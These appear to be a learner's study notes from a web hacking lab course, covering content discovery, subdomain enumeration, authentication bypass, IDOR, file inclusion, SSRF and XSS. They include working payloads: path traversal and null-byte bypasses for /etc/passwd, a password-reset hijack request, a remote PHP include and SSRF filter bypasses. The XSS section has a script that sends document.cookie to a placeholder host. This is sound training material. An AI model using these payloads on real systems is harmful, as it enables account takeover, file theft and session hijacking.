# INTRODUCTION TO WEB HACKING 

Common in-built browser tools in Web Hacking
- **View Source** - Use your browser to view the human-readable source code of a website.
- **Inspector** - Learn how to inspect page elements and make changes to view usually blocked content.
- **Debugger** - Inspect and control the flow of a page's JavaScript
- **Network** - See all the network requests a page makes.

## WALKING AN APPLICATION

### Viewing the Page Source 

Check for comments, hidden links, hidden directories 
- " \<a hrefs" 
- "http" 
- "https"

### Developer Tools - Debugger

Debugger use JS Break Points 

### Developer Tools - Network
Check XHR requests
post ang get request
- headers, payloads

## CONTENT DISCOVERY 

Content can be many things, a file, video, picture, backup, a website feature. When we talk about content discovery, we're not talking about the obvious things we can see on a website; it's the things that aren't immediately presented to us and that weren't always intended for public access.

### Manual Discovery  - robots.txt
check robots.txt access disallow paths

### Manual Discovery  - Favico

when a developer fails to use favico
you can get the favicon.ico and check it md5sum

example
```bash
curl https://static-labs.tryhackme.cloud/sites/favicon/images/favicon.ico | md5sum
```

Then Find it here
`https://wiki.owasp.org/index.php/OWASP_favicon_database`

### Manual Discovery  - sitemap.xml 
Check all urls mentioned

### Manual Discovery  - HTTP Headers  

curl $URL -v 
it will print the HEADERS as well

### OSINT - Google Hacking / Dorking 

There are also external resources available that can help in discovering information about your target website; these resources are often referred to as OSINT or (Open-Source Intelligence) as they're freely available tools that collect information:

|  Filter  |       Example      |                          Description                         |
|:--------:|:------------------:|:------------------------------------------------------------:|
|   site   | site:tryhackme.com |    returns results only from the specified website address   |
|   inurl  |     inurl:admin    |    returns results that have the specified word in the URL   |
| filetype |    filetype:pdf    |     returns results which are a particular file extension    |
|  intitle |    intitle:admin   | returns results that contain the specified word in the title |

More information about google hacking can be found here: https://en.wikipedia.org/wiki/Google_hacking

### OSINT - Wappalyzer 
Wappalyzer (https://www.wappalyzer.com/) is an online tool and browser extension that helps identify what technologies a website uses, such as frameworks, Content Management Systems (CMS), payment processors and much more, and it can even find version numbers as well.

### OSINT - Wayback Machine 
Wayback Machine
The Wayback Machine (https://archive.org/web/) is a historical archive of websites that dates back to the late 90s. You can search a domain name, and it will show you all the times the service scraped the web page and saved the contents. This service can help uncover old pages that may still be active on the current website.

### OSINT - S3 Buckets 
The owner of the files can set access permissions to either make files public, private and even writable. Sometimes these access permissions are incorrectly set and inadvertently allow access to files that shouldn't be available to the public. The format of the S3 buckets is http(s)://{name}.s3.amazonaws.com where {name} is decided by the owner, such as tryhackme-assets.s3.amazonaws.com.
S3 buckets can be discovered in many ways, such as finding the URLs in the website's page source, GitHub repositories, or even automating the process. One common automation method is by using the company name followed by common terms such as {name}-assets, {name}-www, {name}-public, {name}-private, etc

### Automated Discovery 

Using ffuf:
```
ffuf -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt -u http://10.10.18.148/FUZZ
```



fuff is more simpler results


using dirb:
```
dirb http://10.10.18.148/ /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt 
```


dirb is more verbose 

using GoBuster: 
```
gobuster dir --url http://10.10.18.148/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt 
```



gobuster is really fast and i like the output more


## SUBDOMAIN ENUMERATION

3 Subdomain enumeration methods:
- Brute Force
- OSINT
- Virtual Host 

### OSINT - SSL/TLS Certificates 

The purpose of Certificate Transparency logs is to stop malicious and accidentally made certificates from being used. We can use this service to our advantage to discover subdomains belonging to a domain, sites like https://crt.sh and https://ui.ctsearch.entrust.com/ui/ctsearchui offer a searchable database of certificates that shows current and historical results.

Example result in **https://crt.sh** 


crt.sh is good for tracking with date when it was renewed

### OSINT - Search Engines

Search Engines
Search engines contain trillions of links to more than a billion websites, which can be an excellent resource for finding new subdomains. Using advanced search methods on websites like Google, such as the site: filter, can narrow the search results. For example, "-site:www.domain.com site:*.domain.com" would only contain results leading to the domain name domain.com but exclude any links to www.domain.com; therefore, it shows us only subdomain names belonging to domain.com.

Go to Google and use the search term -site:www.tryhackme.com  site:*.tryhackme.com, which should reveal a subdomain for tryhackme.com; use that subdomain to answer the question below.


### DNS Bruteforce 

Bruteforce DNS (Domain Name System) enumeration is the method of trying tens, hundreds, thousands or even millions of different possible subdomains from a pre-defined list of commonly used subdomains. Because this method requires many requests, we automate it with tools to make the process quicker. In this instance, we are using a tool called dnsrecon to perform this


### OSINT - Sublis3r 
To speed up the process of OSINT subdomain discovery, we can automate the above methods with the help of tools like Sublist3r

```
user@thm:~$ ./sublist3r.py -d acmeitsupport.thm

          ____        _     _ _     _   _____
         / ___| _   _| |__ | (_)___| |_|___ / _ __
         \___ \| | | | '_ \| | / __| __| |_ \| '__|
          ___) | |_| | |_) | | \__ \ |_ ___) | |
         |____/ \__,_|_.__/|_|_|___/\__|____/|_|

         # Coded By Ahmed Aboul-Ela - @aboul3la

[-] Enumerating subdomains now for acmeitsupport.thm
[-] Searching now in Baidu..
[-] Searching now in Yahoo..
[-] Searching now in Google..
[-] Searching now in Bing..
[-] Searching now in Ask..
[-] Searching now in Netcraft..
[-] Searching now in Virustotal..
[-] Searching now in ThreatCrowd..
[-] Searching now in SSL Certificates..
[-] Searching now in PassiveDNS..
[-] Searching now in Virustotal..
[-] Total Unique Subdomains Found: 2
web55.acmeitsupport.thm
www.acmeitsupport.thm
user@thm:~$
```

### Virtual Hosts 


Some subdomains aren't always hosted in publically accessible DNS results, such as development versions of a web application or administration portals. Instead, the DNS record could be kept on a private DNS server or recorded on the developer's machines in their /etc/hosts file (or c:\windows\system32\drivers\etc\hosts file for Windows users) which maps domain names to IP addresses.
Because web servers can host multiple websites from one server when a website is requested from a client, the server knows which website the client wants from the Host header. We can utilise this host header by making changes to it and monitoring the response to see if we've discovered a new website.
Like with DNS Bruteforce, we can automate this process by using a wordlist of commonly used subdomains.

Start an AttackBox and then try the following command against the Acme IT Support machine to try and discover a new subdomain.

```
user@machine$ ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.1.96
# This command gave a lot of output and we need to filter
```
The above command uses the -w switch to specify the wordlist we are going to use. The -H switch adds/edits a header (in this instance, the Host header), we have the FUZZ keyword in the space where a subdomain would normally go, and this is where we will try all the options from the wordlist. 

Because the above command will always produce a valid result, we need to filter the output. We can do this by using the page size result with the -fs switch. Edit the below command replacing {size} with the most occurring size value from the previous result and try it on the AttackBox

```
user@machine$ ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.1.96 -fs {size}
```


size: 2395
get what is the most common number in size 


## AUTHENTICATION BYPASS

we will learn about different ways website authentication methods can be bypassed, defeated or broken. These vulnerabilities can be some of the most critical as it often ends in leaks of customers personal data


### USERNAME ENUMERATION

Website error messages are great resources for collating this information to build our list of valid usernames. We have a form to create a new user account if we go to the Acme IT Support website (http://10.10.147.156/customers/signup) signup page.

If you try entering the username admin and fill in the other form fields with fake information, you'll see we get the error An account with this username already exists. We can use the existence of this error message to produce a list of valid usernames already signed up on the system by using the ffuf tool below. The ffuf tool uses a list of commonly used usernames to check against for any matches.

```bash
user@tryhackme$ ffuf -w /usr/share/wordlists/SecLists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.147.156/customers/signup -mr "username already exists"
```



In the above example, the `-w` argument selects the file's location on the computer that contains the list of usernames that we're going to check exists. The `-X` argument specifies the request method, this will be a GET request by default, but it is a POST request in our example. The `-d` argument specifies the data that we are going to send. In our example, we have the fields username, email, password and cpassword. We've set the value of the username to FUZZ. In the ffuf tool, the FUZZ keyword signifies where the contents from our wordlist will be inserted in the request. The `-H` argument is used for adding additional headers to the request. In this instance, we're setting the `Content-Type` to the webserver knows we are sending form data. The `-u` argument specifies the URL we are making the request to, and finally, the `-mr` argument is the text on the page we are looking for to validate we've found a valid username.

The ffuf tool and wordlist come pre-installed on the AttackBox or can be installed locally by downloading it from https://github.com/ffuf/ffuf.

> BOOKMARK
> REDO, RE TRY THIS CHAPTER 
> AS I HAVE EXPERIENCE BUGS
> All of the response are 200 

### LOGIC FLAW PRACTICAL 

What is a Logic Flaw?

Sometimes authentication processes contain logic flaws. A logic flaw is when the typical logical path of an application is either bypassed, circumvented or manipulated by a hacker. Logic flaws can exist in any area of a website, but we're going to concentrate on examples relating to authentication in this instance.




**Logic Flaw Practical**

Try Reset Password function.
get the error message. 
Example: 
 `If an invalid email is entered, you'll receive the error message "Account not found from supplied email address"`

Now study the frameworks. on how they recieved the request data. 
Example: 
in the application, the user account is retrieved using the query string, but later on, in the application logic, the password reset email is sent using the data found in the PHP variable `$_REQUEST`. 
The PHP `$_REQUEST` variable is an array that contains data received from the query string and POST data. If the same key name is used for both the query string and POST data, the application logic for this variable favours POST data fields rather than the query string, so if we add another parameter to the POST form, we can control where the password reset email gets delivered.

in simple words, `email` variable value  will be overriden if you pass another `email` variable 
Example:

```
 curl 'http://10.10.252.240/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```

Now I'll create an email to spoof their customer service 
`{username}@customer.acmeitsupport.thm`

now i ran this command 
```
username=jaf
curl 'http://10.10.252.240/customers/reset?email=robert%40acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=attacker@hacker.com'
```
email was sent to my created account, then changed his password there

### COOKIE TAMPERING 

Plain Text
The contents of some cookies can be in plain text, and it is obvious what they do. Take, for example, if these were the cookie set after a successful login:
Set-Cookie: logged_in=true; Max-Age=3600; Path=/
Set-Cookie: admin=false; Max-Age=3600; Path=/

We see one cookie (logged_in), which appears to control whether the user is currently logged in or not, and another (admin), which controls whether the visitor has admin privileges. Using this logic, if we were to change the contents of the cookies and make a request we'll be able to change our privileges.

First, we'll start just by requesting the target page:

Here's an example scenario of modifying the cookie header and gaining access as an admin


Hashing
Sometimes cookie values can look like a long string of random characters; these are called hashes which are an irreversible representation of the original text. Here are some examples that you may come across:

| Original String | Hash Method |                                                              Output                                                              |
|:---------------:|:-----------:|:--------------------------------------------------------------------------------------------------------------------------------:|
|        1        |     md5     |                                                 c4ca4238a0b923820dcc509a6f75849b                                                 |
|        1        |   sha-256   |                                 6b86b273ff34fce19d6b804eff5a3f5747ada4eaa22f1d49c01e52ddb7875b4b                                 |
|        1        |   sha-512   | 4dff4ea340f0a823f15d3f4f01ab62eae0e5da579ccb851f8db9dfe84c58b2b37b89903a740e1ee172da793a6e79d560e5f7f9bd058a12a280433ed6fa46510a |
|        1        |     sha1    |                                             356a192b7913b04c54574d18c28d46e6395428ab                                             |

**ENCODING** is reversible
most common is base64

**HASHING** is one way process. and cannot be reversed 
but hashes always stay the same so you can crack them using tools like this 
`https://crackstation.net`

## IDOR
IDOR stands for Insecure Direct Object Reference and is a type of access control vulnerability.

This type of vulnerability can occur when a web server receives user-supplied input to retrieve objects (files, data, documents), too much trust has been placed on the input data, and it is not validated on the server-side to confirm the requested object belongs to the user requesting it.

### FINDING IDORS IN ENCODED IDS

**Encoded IDs**
When passing data from page to page either by post data, query strings, or cookies, web developers will often first take the raw data and encode it. Encoding ensures that the receiving web server will be able to understand the contents. Encoding changes binary data into an ASCII string commonly using the a-z, A-Z, 0-9 and = character for padding. The most common encoding technique on the web is base64 encoding and can usually be pretty easy to spot. You can use websites like https://www.base64decode.org/ to decode the string, then edit the data and re-encode it again using https://www.base64encode.org/ and then resubmit the web request to see if there is a change in the response.


### FINDING IDORS IN HASHED IDS

Get the `hash` and paste to `https://crackstation.net/`
the most common hasing algorithm is md5 

### FINDING IDORS IN UNPREDICTABLE IDS

Create two accounts in the same site.
try swapping ids. and look if you can view you different account by just changing you values 

### WHERE ARE IDORS LOCATED 

Where are they located?
The vulnerable endpoint you're targeting may not always be something you see in the address bar. It could be content your browser loads in via an AJAX request or something that you find referenced in a JavaScript file. 

Sometimes endpoints could have an unreferenced parameter that may have been of some use during development and got pushed to production. For example, you may notice a call to /user/details displaying your user information (authenticated through your session). But through an attack known as parameter mining, you discover a parameter called user_id that you can use to display other users' information, for example, /user/details?user_id=123.


### PRACTICAL EXAM 

I sign up an account 
logged in as the user
check the accounts page
inspect element. checked the get account api 
copy as curl 
changed the from id=15 to 1 and 3 


## FILE INCLUSION

In some scenarios, web applications are written to request access to files on a given system, including images, static text, and so on via parameters. Parameters are query parameter strings attached to the URL that could be used to retrieve data or perform actions based on user input. The following graph explains and breaking down the essential parts of the URL.


Types:
- Local File Inclusion (LFI)
- Remote File Inclusion (RFI),
- Directory traversal

For example, parameters are used with Google searching, where `GET` requests pass user input into the search engine. `https://www.google.com/search?q=TryHackMe`

Let's discuss a scenario where a user requests to access files from a webserver. First, the user sends an HTTP request to the webserver that includes a file to display. For example, if a user wants to access and display their CV within the web application, the request may look as follows, http://webapp.thm/get.php?file=userCV.pdf, where the file is the parameter and the userCV.pdf, is the required file to access 


**Why do File inclusion vulnerabilities happen?**
File inclusion vulnerabilities are commonly found and exploited in various programming languages for web applications, such as PHP that are poorly written and implemented. The main issue of these vulnerabilities is the input validation, in which the user inputs are not sanitized or validated, and the user controls them. When the input is not validated, the user can pass any input to the function, causing the vulnerability.

What is the risk of File inclusion?
If the attacker can use file inclusion vulnerabilities to read sensitive data. 

In that case, the successful attack causes
- to leak of sensitive data,
- including code and files related to the web application,
- credentials for back-end systems

Moreover, if the attacker somehow can write to the server such as  /tmp directory, then it is possible to gain remote command execution RCE. 

### PATH TRAVERSAL 
Also known as Directory traversal, a web security vulnerability allows an attacker to read operating system resources, such as local files on the server running an application. The attacker exploits this vulnerability by manipulating and abusing the web application's URL to locate and access files or directories stored outside the application's root directory.

Path traversal vulnerabilities occur when the user's input is passed to a function such as file_get_contents in PHP. It's important to note that the function is not the main contributor to the vulnerability. Often poor input validation or filtering is the cause of the vulnerability. In PHP, you can use the file_get_contents to read the content of a file. You can find more information about the function here. 
https://www.php.net/manual/en/function.file-get-contents.php 

The following graph shows how a web application stores files in /var/www/app. The happy path would be the user requesting the contents of userCV.pdf from a defined path /var/www/app/CVs.


Path traversal attacks, also known as the `dot-dot-slas`h attack 
If the attacker finds the entry point, which in this case get.php?file=, then the attacker may send something as follows, `http://webapp.thm/get.php?file=../../../../etc/passwd` . 


and instead of accessing the PDF files at /var/www/app/CVs 
the attacker may just go directly at `/etc/passwd`

As a result, the web application sends back the file's content to the user.


Similarly, if the web application runs on a Windows server, the attacker needs to provide Windows paths. For example, if the attacker wants to read the boot.ini file located in c:\boot.ini, then the attacker can try the following depending on the target OS version  


|           Location          |                                                                            Description                                                                            |
|:---------------------------:|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------:|
|          /etc/issue         | contains a message or system identification to be printed before the login prompt.                                                                                |
|         /etc/profile        | controls system-wide default variables, such as Export variables, File creation mask (umask), Terminal types, Mail messages to indicate when new mail has arrived |
|        /proc/version        | specifies the version of the Linux kernel                                                                                                                         |
|         /etc/passwd         | has all registered user that has access to a system                                                                                                               |
|         /etc/shadow         | contains information about the system's users' passwords                                                                                                          |
|     /root/.bash_history     | contains the history commands for root user                                                                                                                       |
|      /var/log/dmessage      | contains global system messages, including the messages that are logged during system startup                                                                     |
|        /var/mail/root       |                                                                      all emails for root user                                                                     |
|      /root/.ssh/id_rsa      |                                                 Private SSH keys for a root or any known valid user on the server                                                 |
| /var/log/apache2/access.log |                                                            the accessed requests for Apache  webserver                                                            |
|         C:\boot.ini         | contains the boot options for computers with BIOS firmware                                                                                                        |


### LOCAL FILE INCLUSION - LFI 

LFI attacks against web applications are often due to a developers' lack of security awareness. With PHP, using functions such as include, require, include_once, and require_once often contribute to vulnerable web applications. In this room, we'll be picking on PHP, but it's worth noting LFI vulnerabilities also occur when using other languages such as ASP, JSP, or even in Node.js apps. LFI exploits follow the same concepts as path traversal. 

tried to access `/etc/passwd`



### LOCAL FILE INCLUSION - LFI #2

```
Warning: include(languages/../../../../../etc/passwd.php): failed to open stream: No such file or directory in /var/www/html/THM-4/index.php on line 12
```


It seems we could move out of the PHP directory but still, the `include` function reads the input with `.php` at the end! This tells us that the developer specifies the file type to pass to the include function. To bypass this scenario, we can use the `NULL BYTE`, which is `%00`.

Using null bytes is an injection technique where URL-encoded representation such as `%00` or `0x00` in hex with user-supplied data to terminate strings. You could think of it as trying to trick the web app into disregarding whatever comes after the Null Byte.

By adding the Null Byte at the end of the payload, we tell the  `include` function to ignore anything after the null byte which may look like:

`include("languages/../../../../../etc/passwd%00").".php");` which equivalent to → `include("languages/../../../../../etc/passwd");`

**NOTE: the %00 trick is fixed and not working with PHP 5.3.4 and above.**

**LAB4**
```
# Doesn't work
../../../etc/passwd # will not work

# Worked because of null byte %00
../../../etc/passwd%00 

```

**LAB5**  
If we check the warning message in the `include(languages/etc/passwd)` section, we know that the web application replaces the ../ with the empty string. There are a couple of techniques we can use to bypass this.

First, we can send the following payload to bypass it: `....//....//....//....//....//etc/passwd`

Why This Works: 


**LAB3**   
reading `/etc/passwd` using nullbyte method



**LAB6**   
In this case there is path first you have to enter. 
this path gives you admin access 


**My Answers**    
Summary


### REMOTE FILE INCLUSION - RFI 

Remote File Inclusion (RFI) is a technique to include remote files and into a vulnerable application. Like LFI, the RFI occurs when improperly sanitizing user input, allowing an attacker to inject an external URL into `include` function. One requirement for RFI is that the `allow_url_fopen` option needs to be `on`.

The risk of RFI is higher than LFI since RFI vulnerabilities allow an attacker to gain Remote Command Execution (RCE) on the server. Other consequences of a successful RFI attack include:
- Sensitive Information Disclosure
- Cross-site Scripting (XSS)
- Denial of Service (DoS)

An external server must communicate with the application server for a successful RFI attack where the attacker hosts malicious files on their server. Then the malicious file is injected into the include function via HTTP requests, and the content of the malicious file executes on the vulnerable application server.


**RFI steps**

The following figure is an example of steps for a successful RFI attack! Let's say that the attacker hosts a PHP file on their own server http://attacker.thm/cmd.txt where cmd.txt contains a printing message  Hello THM.
```
<?PHP echo "Hello THM"; ?>
```

First, the attacker injects the malicious URL, which points to the attacker's server, such as http://webapp.thm/index.php?lang=http://attacker.thm/cmd.txt. If there is no input validation, then the malicious URL passes into the include function. Next, the web app server will send a GET request to the malicious server to fetch the file. As a result, the web app includes the remote file into include function to execute the PHP file within the page and send the execution content to the attacker. In our case, the current page somewhere has to show the Hello THM message.

### REMEDIATION 

As a developer, it's important to be aware of web application vulnerabilities, how to find them, and prevention methods. To prevent the file inclusion vulnerabilities, some common suggestions include:

- Keep system and services, including web application frameworks, updated with the latest version.
- Turn off PHP errors to avoid leaking the path of the application and other potentially revealing information.
- A Web Application Firewall (WAF) is a good option to help mitigate web application attacks.
- Disable some PHP features that cause file inclusion vulnerabilities if your web app doesn't need them, such as allow_url_fopen on and allow_url_include.
- Carefully analyze the web application and allow only protocols and PHP wrappers that are in need.
- Never trust user input, and make sure to implement proper input validation against file inclusion.
- Implement whitelisting for file names and locations as well as blacklisting.

### CHALLENGE 

**Flag1**  
GET Method is not working I created a script that uses post method with a parameter 



**Flag2**  
Changed the cookie value to `THM=../../../../etc/flag2`
then refreshed 



**Flag3**  
Change the method from `GET` to `POST` 
GET parameter was being filtered
POST data using parameter escaped the filter together with `NULL BYTE`

`../../../../etc/flag3%00`


RCE LAB # PLAYGROUND

created a file cmd.txt 
```
<?php 
    print exec('hostname')
?>
```

Then serve it as python server 


Then access it in the url like this   
`http://10.10.70.133/playground.php?file=http://10.10.210.23:8080/cmd.txt`



## SSRF 

SSRF stands for **Server-Side Request Forgery**. It's a vulnerability that allows a malicious user to cause the webserver to make an additional or edited HTTP request to the resource of the attacker's choosing.

**Types of SSRF** 

There are two types of SSRF vulnerability; 
- **Regular SSRF** where data is returned to the attacker's screen.
- **Blind SSRF** vulnerability where an SSRF occurs, but no information is returned to the attacker's screen.

**What's the impact?**  
A successful SSRF attack can result in any of the following: 

- Access to unauthorised areas.
- Access to customer/organisational data.
- Ability to Scale to internal networks.
- Reveal authentication tokens/credentials.

### SSRF EXAMPLES 

The below example shows how the attacker can have complete control over the page requested by the webserver.
The Expected Request is what the website.thm server is expecting to receive, with the section in red being the URL that the website will fetch for the information.
The attacker can modify the area in red to an URL of their choice. 

**EX1**  


```bash
http://website.thm/stock?url=`http://api.website.thm/api/user`
```


**EX2**  
The below example shows how an attacker can still reach the /api/user page with only having control over the path by utilising directory traversal. When website.thm receives ../ this is a message to move up a directory which removes the /stock portion of the request and turns the final request into /api/user



```bash
http://website.thm/stock?url=`/item?id=123`
```


**EX3**  
In this example, the attacker can control the server's subdomain to which the request is made. Take note of the payload ending in &x= being used to stop the remaining path from being appended to the end of the attacker's URL and instead turns it into a parameter (?x=) on the query string.


```bash
http://website.thm/stock?server=`api.website.thm/api/user&x=`&id=123
```


Summary
```
http://website.thm/stock?url=http://api.website.thm/api/user
http://website.thm/stock?url=/../user
http://website.thm/stock?server=api.website.thm/api/user&x=&id=123
http://website.thm/stock?url=http://hacker-domain.thm/

```

Challenge answer

`https://website.thm/item/2?server=server.website.thm/flag?id=9&x=id=2`  
THM{SSRF_MASTER}

### FINDING AN SSRF 

Potential SSRF vulnerabilities can be spotted in web applications in many different ways. Here is an example of four common places to look:
WHEN: 

**Full URL is used in a parameter in the address bar**  


**Partial URL: HOSTNAME**  


**Partial URL: PATH**    


### DEFEATING COMMON SSRF DEFENSES 

**Deny List**
A Deny List is where all requests are accepted apart from resources specified in a list or matching a particular pattern. A Web Application may employ a deny list to protect sensitive endpoints, IP addresses or domains from being accessed by the public while still allowing access to other locations. A specific endpoint to restrict access is the localhost, which may contain server performance data or further sensitive information, so domain names such as localhost and 127.0.0.1 would appear on a deny list. Attackers can bypass a Deny List by using alternative localhost references such as 0, 0.0.0.0, 0000, 127.1, 127.*.*.*, 2130706433, 017700000001 or subdomains that have a DNS record which resolves to the IP Address 127.0.0.1 such as 127.0.0.1.nip.io.

Also, in a cloud environment, it would be beneficial to block access to the IP address 169.254.169.254, which contains metadata for the deployed cloud server, including possibly sensitive information. An attacker can bypass this by registering a subdomain on their own domain with a DNS record that points to the IP Address 169.254.169.254.

```
Why 169.254.169.254 ? 
```

**Allow List**
An allow list is where all requests get denied unless they appear on a list or match a particular pattern, such as a rule that an URL used in a parameter must begin with https://website.thm. An attacker could quickly circumvent this rule by creating a subdomain on an attacker's domain name, such as https://website.thm.attackers-domain.thm. The application logic would now allow this input and let an attacker control the internal HTTP request.

**Open Redirect**
If the above bypasses do not work, there is one more trick up the attacker's sleeve, the open redirect. An open redirect is an endpoint on the server where the website visitor gets automatically redirected to another website address. Take, for example, the link https://website.thm/link?url=https://tryhackme.com. This endpoint was created to record the number of times visitors have clicked on this link for advertising/marketing purposes. But imagine there was a potential SSRF vulnerability with stringent rules which only allowed URLs beginning with https://website.thm/. An attacker could utilise the above feature to redirect the internal HTTP request to a domain of the attacker's choice.

### SSRF PRACTICAL EXAM 


In this challenge. 
we need to access `/private` for the flag. 

in the website there's a security flaw in the website.
 `/customers/new-account-page`

When you change an avatar. 
the base url image is getting encoded in base64


Then Tried changing value to 'private'


that section tried to request to '/private'


now I change the value to `x/../private`


And got the encoded base64 of the /private response. 

now decoded the flag 

## XSS - CROSS SITE SCRIPTING 

```javascript

# BASIC
<script>alert('THM');</script>

# Escape Tag
"><script>alert('THM');</script>

# Escape Tag
</textarea><script>alert('THM');</script>

# Escape JS command 
';alert('THM');//

# escape filter word script
<sscriptcript>alert('THM');</sscriptcript>

# POLYGLOT
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

### Challenge 

setup a receiving server like netcat

```
nc -nlvp 9001
```

This will send the cookies (with high privilege) to our server 
</textarea><script>fetch('http://{URL_OR_IP}?cookie=' + btoa(document.cookie) );</script> 




---

## MY TAKEAWAYS

**WALKING APPLICATION**
- Look at comments
- Assets/directory
- look for zips
- secret urls

**CONTENT DISCOVERY**

Start by asking what is purpose of the website.
what is nature of it services? 
what is the content of the website. 

Content can be many things, a file, video, picture, backup, a website feature. 

3 main ways to discover content
- Manually
- Automated 
- OSINT (Open-Source Intelligence).


**SUBDOMAIN ENUMERATION**
- sublist3r.py -d $url # OSINT Subdomain discovery 
- check at `https://crt.sh` good for history tracking also 
- dnsrecon -t brt -d $url #   Bruteforce with list

For private subdomains, (using vhost,dns revolve in development)

`ffuf -w /usr/share/wordlists/SecLists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u $url`
> FUZZ will be replaced by wordlist
> Will use header host for redirection 


**IDORS**

- create 2 accounts, and try to access each other just by changing ids or some values in the APIs
- Try looking at the encoded or hashed values in header if you can manipulate it 
- basically, inspect element check the apis, copy as curl and change some ids or identity, try to access other ids from your cookie 


**LFI**

Study 
Null Bytes
ENCODING 

Study how the server receives the requests. 
what function are they using. 
do they store it in a variable. 
can it be overridden? 
can you pollute it? 

In this example in PHP  `$_REQUEST`, `function.inclue` and `file_get_contents` 
are the functions that got exploited. 


